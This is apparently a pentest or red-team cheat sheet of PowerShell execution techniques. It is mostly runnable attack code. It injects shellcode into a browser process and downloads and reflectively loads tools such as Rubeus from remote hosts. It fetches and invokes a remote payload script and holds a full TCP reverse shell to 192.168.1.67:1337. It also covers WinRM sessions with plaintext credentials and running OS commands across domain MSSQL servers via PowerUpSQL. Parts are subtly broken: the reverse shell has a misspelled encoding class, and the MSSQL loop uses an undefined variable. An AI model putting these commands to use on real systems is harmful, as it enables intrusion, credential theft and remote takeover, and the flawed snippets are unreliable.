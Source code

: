 # Execution

## Executing Shellcode

Empire's `Invoke-Shellcode`

{% code overflow="wrap" fullWidth="false" %}
```powershell
IEX (New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/EmpireProject/Empire/dev/data/module_source/code_execution/Invoke-Shellcode.ps1')
$b = [System.Io.File]::ReadAllBytes("C:\beaconx64.bin")
Invoke-Shellcode -ProcessId $(ps edge.exe).Id -Shellcode $b
```
{% endcode %}

Or `Invoke-Shellcode -Shellcode @(0x90,0x90,0xC3)`

### Executible to In-Memory Assembly Code

Reflectively loading a binary as assembly code

{% code overflow="wrap" %}
```powershell
[System.Reflection.Assembly]::Load((New-Object System.Net.WebClient).DownloadData('http://my_ip/run.exe'))
```
{% endcode %}

#### Download and Execute in Memory

GitHub: [https://github.com/jnqpblc/Misc-PowerShell/blob/master/SharpDLExec.ps1](https://github.com/jnqpblc/Misc-PowerShell/blob/master/SharpDLExec.ps1)

{% code overflow="wrap" %}
```powershell
$u = "https://raw.githubusercontent.com/Flangvik/SharpCollection/master/NetFramework_4.0_Any/"
$f="Rubeus.exe"
$c = "1"
[byte[]] $a = (New-Object System.Net.WebClient).DownloadData($u+$f)
$assem = [System.Reflection.Assembly]::Load($a);
#$assem.CustomAttributes
#$assem.EntryPoint |ft Name, ReflectedType, Module, IsPublic
([Type]$assem.EntryPoint.DeclaringType.FullName.ToString())::([String]$assem.EntryPoint.Name).Invoke($c)

```
{% endcode %}

Additionally, GitHub: [https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md)

{% code overflow="wrap" %}
```powershell
$wp=[System.Reflection.Assembly]::Load([byte[]](new-object net.webclient).Downloaddata('http://172.16.40.13:1337/defnotrubeus.exe'));
[Rubeus.Program]::MainString("triage")
```
{% endcode %}

### WinRM

The following will establish a WinRM session and execute commands through it

{% code overflow="wrap" %}
```powershell
$cred = New-Object System.Management.Automation.PSCredential('burmat.local\jsmith', (ConvertTo-SecureString 'password' -AsPlainText -Force));

$sess = New-PSSession -Credential $cred -ComputerName $hostname; 
if ($sess) { 
    Invoke-Command -Session $sess -ScriptBlock { hostname; whoami; }; 
    Remove-PSSession $sess
}
```
{% endcode %}

Instead, you can gain an interactive session with:

{% code overflow="wrap" %}
```powershell
Enter-PSSession $(New-PSSession -Credential $cred -ComputerName $hostname);
```
{% endcode %}

### PowerShell Execution via Text File

{% code overflow="wrap" fullWidth="false" %}
```powershell
[scriptblock]::Create($((New-Object System.Net.WebClient).DownloadString('http://192.168.1.123/payload.txt'))).Invoke()
```
{% endcode %}

### Reverse Shell

{% code overflow="wrap" fullWidth="false" %}
```powershell
$client = New-Object System.Net.Sockets.TCPClient('192.168.1.67', 1337);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
	$data = (New-Object -TypeName System.Text.ASCIIEncodifng).GetString($bytes, 0, $i);
	$sendback = (iex $data 2>&1 | Out-String);
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte, 0, $sendbyte.Length);
	$stream.Flush();
}
$client.Close();
```
{% endcode %}



## Microsoft SQL Server (MSSQL)

### PowerUpSQL

Create to: [https://github.com/lkys37en](https://github.com/lkys37en)

```powershell
Import-Module C:\tools\PowerUpSQL\PowerUpSQL.psm1

$Domain = "burmat.co"
$DC = (Get-ADDomain -Identity $Domain).PDCEmulator
$DomainDN = (Get-ADDomain -Identity $Domain).DistinguishedName

Get-SQLInstanceDomain -DomainController $DC -OutVariable MSSQLServers -verbose | Export-Csv ("MSSQLServers.csv") -NoTypeInformation

$SQLCmd = $MSSQLServers | Invoke-SQLOSCmd -Verbose -Command "Whoami" -Threads 10
$SQLCmd | Export-Csv ("Weak Microsoft SQL Server Access Control.csv") -NoTypeInformation

foreach ($MSSQLPriv in $MSSQLPrivs) {
   $MSSQLStoredProceduresEnabledonPublicRole = [ordered]@{
	  'Affected Scope'        = $Domain
	  'Computer Name'         = $MSSQLPriv.ComputerName.ToLower()
	  'Instance'              = $MSSQLPriv.Instance.ToLower()
	  'Database Name'         = $MSSQLPriv.DatabaseName
	  'Principal Name'        = $MSSQLPriv.PrincipalName
	  'Principal Type'        = $MSSQLPriv.PrincipalType
	  'Permission Type'       = $MSSQLPriv.PermissionType
	  'Permission Name'       = $MSSQLPriv.PermissionName
	  'State Description'     = $MSSQLPriv.StateDescription
	  'Object Name'           = $MSSQLPriv.ObjectName
	}

	$MSSQLStoredProceduresEnabledonPublicRole_object = New-Object -TypeName PSObject -Property $MSSQLStoredProceduresEnabledonPublicRole
	$MSSQLStoredProceduresEnabledonPublicRole_object | Export-Csv ("MSSQL Stored Procedures Enabled on Public Role.csv") -NoTypeInformation -Append
}
```



